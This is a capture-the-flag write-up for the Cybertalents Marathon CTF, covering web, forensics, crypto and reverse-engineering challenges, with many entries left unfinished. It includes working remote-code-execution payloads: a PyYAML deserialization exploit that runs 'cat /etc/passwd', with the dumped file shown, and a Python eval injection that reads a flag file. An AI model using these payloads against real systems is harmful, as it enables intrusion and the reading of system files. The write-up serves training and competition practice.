





Hello Friend!
This is my writeup for **Marathon CTF** by Cybertalents.

## Challenge - 1: Bad Request.
 - Category : Web Security
 - Level : Medium
 - Description : we are working on an api for our website , we didn't decide if *YAML* would be accurate or not but it is still under construction , we hope our passwd file is secure.
 - Link: http://52.59.239.147/api/v1/

In This Challenge We are given an API Link. After Opening the link
```json
{
  "api_data": "The api is still under construction, updates coming soon!"
}
```
In this Challenge we have an API which is still under construction!
At first I tried to brute force directories using common wordlist for [API](./files/api.txt) and [yaml](./files/yaml.txt) but Nothing is useful!

Okay, Let's Take a closer look at the internal of the request.



I notice the base64 encoded string 



```bash
➜  bad_request echo "YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==" | base64 -d
api_data: The api is still under construction, updates coming soon!          
```
We can manipulate the response by change the value of `api_data`.
Now we detected the input field but still don't know the vulnerability. Did We have an XSS or what!

I read the Description of challenge again and I Notice _YAML_ Humm, 
After a little bit of recon I figured out that there is an open port and the running service is `Werkzeug httpd 0.14.1 (Python 3.6.9)`. After some search I found that the vulnerability is `PyYAML Desirlazation` and it can lead to `RCE`.

If you don't know What is `YAML` you can check this short [one](https://www.youtube.com/watch?v=0fbnyS_lHW4) 

Example
```py
>>> import yaml
>>> with open("1.yaml") as s:
...     y = yaml.load(s)
...     print(y['name'])
... 
<stdin>:2: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
m1m0n
>>>
```
The Problem in `PyYAML` arises when using `load()` which is vulnerable and We can use `apply` tag - in the parser used in python - Which allows to call any function from any module.

If You need a good reference about `YAML Deserialization Attack in Python` I recommend this [One](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)

--- 

#### Final Exploit

```py
import requests
import base64

url = "http://52.59.239.147/api/v1/"
payload = ("api_data: !!python/object/apply:subprocess.getoutput ['cat /etc/passwd']").encode('utf-8')
h = {"Cookie": "data={}".format(str(base64.b64encode(payload))[2:])}
r = requests.get(url, headers=h)

print(r.text)
```
```bash
➜  bad_request_SOLVED python3 get_flag.py
{
  "api_data": "root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/bin/sh\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\npostgres:x:70:70::/var/lib/postgresql:/bin/sh\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\napp:x:1000:1000:Linux User,,,:/home/app:/sbin/halt\nadministrator:FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}:1000:1000:administrator,,,:/home/administrator:/bin/bash"
}
```
The Flag is : FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}

The Mitigation of this vulnerability use `safe_load()` instead of `load()`


---

## Challenge - 2: Password Hint.
 - Category: Digital Forensics.
 - Level: Medium
 - Description: This a sam registry hive, can you find the password hint for a user called flag.
 - Challenge File: [SAM](./files/SAM)

The Given File is a SAN file. you can search about it for more info.
just open `regripper` and select the hive file, then Rip it.
now you have a log file

for John the ripper user you found a base64 password hint 


decode it 



---

## Challenge - 3: Flasher.
 - Category: Digital Forensics.
 - Level: Medium
 - Description: Drug Dealers are smuggeling with secret signal, as famous detective can you decode the signal ? flag format: flag{}
 - Challenge File: [CanDump](./files/candump-2020-11-30_044734.log)

solving script
```python
import binascii

with open("map") as m:
    h = m.readlines()

found = []
for i in h:
    if i.strip() == "010000":
        found.append("0")
    else:
        found.append("1")

flag = int("".join(found),2)
print(binascii.unhexlify('%x' % flag))

```

---

 ## Challenge - 4: Secret Place.
 - Category: Malware Reverse Engineering.
 - Level: Easy
 - Description: There is a secret place in every executable.
 - Challenge File: [SecretPlace](./files/SecretPlace.exe)

TBD

---

 ## Challenge - 5: USB SN.
 - Category: Digital Forensics .
 - Level: Medium
 - Description: The investigator needs to find the serial number of SANDISK USB flash drive which was connected to the machine he investigates.  Flag format: md5 of string
 - Challenge File: [System](./files/Sysetm.evtx)

TBD

---

 ## Challenge - 6: Reduce Modulus. 
 - Category: Cryptography .
 - Level: Medium
 - Challenge File: [Code](./files/code.py)

```python
from Crypto.Util.number import *
import gmpy2

p = 97376413457495379727538733988115472170316568275353708109214217512313027597677
q = 103063943630687425230399745410466615279125356292442540958979279268474247260079

N = p * q
phiN = (p-1) * (q-1)

c = 493411990714034701192036868925033382533813449023272468886834417275865894890277610897602010608126211732489729110637453412478527735277532858305194132432995412335314758844973458067236971260497417393244304994147175160121126866274637094642084286422204250530071767179407437175780827344723433812174890560874797281085881372866235919836442489439131953350250339903321616150128653702980111364606793773693115742802148096105255600570826866081538329662788508308910574300106675
e = 65537

d = gmpy2.invert(e,phiN)
print(long_to_bytes(pow(c,d,N)))

```
 
---

## Challenge - 7: EzzRecon.
 - Category : Web Security
 - Level : Easy
 - Description : Before thinking about the bugs , you should think where to find it.
 - Link: http://18.196.160.18/

From the Challenge Name We see that we have to do some recon stuff.
I Have tried dirsearch to brute force direcrory but found nothing

```bash
➜  ezz_recon_SOLVED dnsrecon -d ctctf.easy.unaux.com
[*] Performing General Enumeration of Domain: ctctf.easy.unaux.com
[-] DNSSEC is not configured for ctctf.easy.unaux.com
[*] 	 SOA ns1.unaux.com 198.251.86.152
[*] 	 SOA ns1.unaux.com 185.27.134.138
[-] Could not Resolve NS Records for ctctf.easy.unaux.com
[-] Could not Resolve MX Records for ctctf.easy.unaux.com
[*] 	 A ctctf.easy.unaux.com 185.27.134.151
[*] 	 TXT ctctf.easy.unaux.com v=spf1 include:flag_ezz_recon_all_the_time_congrats
[*] Enumerating SRV Records
[+] 0 Records Found
```
 ---

 ## Challenge - 8: 45m.
 - Category : Reverse Engineering
 - Level : Easy
 - Description : Do you love assembly? Flag format : flag{Number_you_found}
 - Challenge File : [45m](./files/45m.asm)

We have an assembly file which contains some labels and `flag_checker` procedure.
```assembly
flag_checker:
        push    rbp
        mov     rbp, rsp
        mov     DWORD PTR [rbp-4], edi
        xor     DWORD PTR [rbp-4], 133337
        sar     DWORD PTR [rbp-4], 3
        add     DWORD PTR [rbp-4], 1337
        sub     DWORD PTR [rbp-4], 137
        mov     edx, DWORD PTR [rbp-4]
        mov     eax, edx
        add     eax, eax
        add     eax, edx
        mov     DWORD PTR [rbp-4], eax
        cmp     DWORD PTR [rbp-4], 1128648
        jne     .L2
        mov     eax, 1
        jmp     .L3
.L2:
        mov     eax, 0
.L3:
        pop     rbp
        ret
.LC0:
        .string "Enter the secret number: "
.LC1:
        .string "%d"
.LC2:
        .string "Correct number :D"
.LC3:
        .string "Wrong number :p"
main:
        push    rbp
        mov     rbp, rsp
        sub     rsp, 16
        mov     edi, OFFSET FLAT:.LC0
        mov     eax, 0
        call    printf
        mov     eax, DWORD PTR [rbp-4]
        mov     esi, eax
        mov     edi, OFFSET FLAT:.LC1
        mov     eax, 0
        call    __isoc99_scanf
        mov     eax, DWORD PTR [rbp-4]
        mov     edi, eax
        call    flag_checker
        mov     DWORD PTR [rbp-8], eax
        cmp     DWORD PTR [rbp-8], 0
        je      .L5
        mov     edi, OFFSET FLAT:.LC2
        call    puts
        jmp     .L6
.L5:
        mov     edi, OFFSET FLAT:.LC3
        call    puts
.L6:
        mov     eax, 0
        leave
        ret
```
Okay let's start with the main function. It asks user to *Enter the secret number:* and read it and then call `flag_checker` to check the input.
Let's jump to `flag_checker` and see how it works.

First it copies the value from edi register to `DWORD PTR [rbp-4]` and then perform some operation on like `xor, sar, add and sub`

and then it compares it with `1128648` if they are not equal `jmp .L2` and copy zero to eax and then return it and if they are equal then copy 1 to eax and then return it.

We can start from the `cmp` instruction and try to reverse the instructions (move to the top).


```asm
mov     eax, edx
add     eax, eax
add     eax, edx
mov     DWORD PTR [rbp-4], eax
cmp     DWORD PTR [rbp-4], 1128648
 ```

 we can form a mathmatical equation : `X+(2*X) = 1128648`
 it is linear equation and X = 376216
 ```
xor     DWORD PTR [rbp-4], 133337
sar     DWORD PTR [rbp-4], 3
add     DWORD PTR [rbp-4], 1337
sub     DWORD PTR [rbp-4], 137
 ```
 we can reverse the effect of the instruction
 ```python
>>> X = 376216
>>> X + 137
376353
>>> _ - 1337
375016
>>> _ << 3
3000128
>>> _ ^ 133337
3133337
>>> 
 ```

 and the flag is : `flag{3133337}`

---

 ## Challenge - 9: Client Side.
 - Category : Web Security
 - Level : easy
 - Description : Client side password check isn't secure, is it ? The password is your flag. Note: Flag format flag{XXXXXXXXXX}
 - Link: http://35.225.49.73/login/login.html

TBD

---

 ## Challenge - 10: Secret Place.
 - Category : RE
 - Level : easy
 - Description : There is a secret place in every executable.
 - file: [Secret Place](./files/SecretPlace.exe)

TBD

---

 ## Challenge - 11:  Base-listener .
 - Category : Crypto
 - Level : easy
 - Description : Can you decode this weird string BDkPUNzMYDDLsPLP9V4J75dNNCmWb5TXf5kdXNh6CP7zb6mr

---

 ## Challenge - 12: Python Art.
 - Category : Web Security
 - Level : easy
 - Description : This is a simple tool that will help you to draw your text easily.
 - Link: http://18.196.160.18:3333/

```py
import requests

url = "http://18.196.160.18:3333/send"

d = {'name' : 'eval(\'__import__(\"subprocess\").check_output([\"cat\",\"flag\"])\')'}
# d = {'name' : 'eval(\'__import__(\"os\").system(\"cat flag\")\')'}
# d = {'name' : 'eval(\'__import__(\"os\").path.dirname(\"/app/flag\")\')'}
# d = {'name' : 'eval(\'__import__(\"os\").listdir(\".\")\')'}
# d = {'name' : 'eval(\'__import__(\"os\").open(\"/app/flag\",)\')'}

r = requests.post(url, data=d)

print(r.text)
```
   
---

 ## Challenge - 13: SuperNova.
 - Category : Web Security
 - Level : easy
 - Description : supernova gift for you
 - Link: http://52.59.239.147/nova/

TBD

---

 ## Challenge - 14: New Account.
 - Category : Digital Forensics
 - Level : easy
 - Description : an attacker after compromising the machine added a new account as admin. can you find the name of the new account? flag format : flag{md5 of string} 
 - file: [new_account](./files/Security436509324654726509.evtx)

TBD

---

 ## Challenge - 15:  The Mystery Riddle.
 - Category : RE
 - Level : easy
 - Description : Legacy meme ;)
 - file: [vim](./files/vim)

---

 ## Challenge - 16:  password change.
 - Category : Digital Forensics
 - Level : easy
 - Description : The investigator needs to know the date of the last password change for a user named: john, can you help?
 Flag format:  MD5 of YY:MM:DD like 1998-05-15
 - file: [sam](./files/SAM84398934653746593)

---

 ## Challenge - 17:  HeapHop.
 - Category : Digital Forensics
 - Level : Hard
 - Description : The flag distributed in many parts, each part is 3 bytes located on each heap start, don't worry about how to arrange the flag, just follow the memory it knows how to do its job
 - file: [heaphop](./files/chall.vmem)

TBD
f149{he4ps_***_*********_****}


---

## Challenge - 18:  Bomp.
 - Category : Digital Forensics
 - Level : Medium
 - Description : Why dosen't my BOMP Explode!!Format: Flag{}
 - file: [bomp](./files/b0mp)

The idea is :
the given file is BMP and corrupted
to repair the image :
	1 - fix the header (42 4D)
	2 - repair Number of planes in the image it must be 1 (bytes 27:28 -> 0001) Not necessary
	3 - bytes 29 : 30 -> repair the number of bits per pixel, which is the color depth of the image. Typical values are 1, 4, 8, 16, 24 and 32 but the common one is 24 (hex(24) = 0x18),  
	3 - write a script to brute force the width and height (to reduce the brute force range i put the range at the end of the file in base58)



https://asecuritysite.com/forensics/bmp?file=%2Flog%2FLAND3.BMP% 

---

## Challenge - 19:  Weird Vigenère.
 - Category : Cryptography
 - Level : Medium
 - Description : Why do everyone think I’m weird
 - file: [Weird](./files/Di-di-dah-dah-dah.txt)

```python

with open("Di-di-dah-dah-dah.txt") as d:
    lines = d.read().split()

# I have generated this mapp from https://morsecode.world/international/morse.html

mapp = {'di-dah': 'A', 'dah-di-di-dit': 'B', 'dah-di-dah-dit': 'C', 'dah-di-dit': 'D', 'dit': 'E', 'di-di-dah-dit': 'F', 'dah-dah-dit': 'G', 'di-di-di-dit': 'H', 'di-dit': 'I', 'di-dah-dah-dah': 'J', 'dah-di-dah': 'K', 'di-dah-di-dit': 'L', 'dah-dah': 'M', 'dah-dit': 'N', 'dah-dah-dah': 'O', 'di-dah-dah-dit': 'P', 'dah-dah-di-dah': 'Q', 'di-dah-dit': 'R', 'di-di-dit': 'S', 'dah': 'T', 'di-di-dah': 'U', 'di-di-di-dah': 'V', 'di-dah-dah': 'W', 'dah-di-di-dah': 'X', 'dah-di-dah-dah': 'Y', 'dah-dah-di-dit': 'Z', 'dah-dah-dah-dah-dah': '0', 'di-dah-dah-dah-dah': '1', 'di-di-dah-dah-dah': '2', 'di-di-di-dah-dah': '3', 'di-di-di-di-dah': '4', 'di-di-di-di-dit': '5', 'dah-di-di-di-dit': '6', 'dah-dah-di-di-dit': '7', 'dah-dah-dah-di-dit': '8', 'dah-dah-dah-dah-dit': '9'}

for i in lines:
    flag.append(mapp[i])

print("".join(flag)[2:])

# Lo0k*uP*G3t>K3y!!!4B0V3%%Y0u2:PH34d*w0W#h45Ht4G#!T23Nd1nG;gg)MDOZ{TAU_FAK_WQNMGFG}@coronaflag
```
to be cont.
